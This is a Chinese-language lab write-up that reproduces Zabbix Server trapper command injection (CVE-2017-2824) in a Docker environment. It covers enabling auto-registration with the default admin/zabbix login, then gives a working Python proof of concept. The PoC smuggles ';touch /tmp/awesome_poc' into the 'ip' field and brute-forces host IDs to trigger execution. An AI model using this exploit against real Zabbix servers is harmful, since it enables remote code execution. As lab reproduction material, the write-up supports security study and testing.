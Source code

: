 # Zabbix Server trapper命令注入漏洞 CVE-2017-2824

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。访问`http://your-ip:8080/index.php`，使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![image-20220302234333155](images/202203022343242.png)

第三个标签页，创建一个Operation，type是“Add Host”：

![image-20220302234456751](images/202203022344809.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/awesome_poc"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

查看到如下结果时，则说明命令执行成功：

![image-20220303152549893](images/202203031525035.png)

进入server容器，可见`/tmp/awesome_poc`已成功创建：

![image-20220303151927792](images/202203031519873.png)

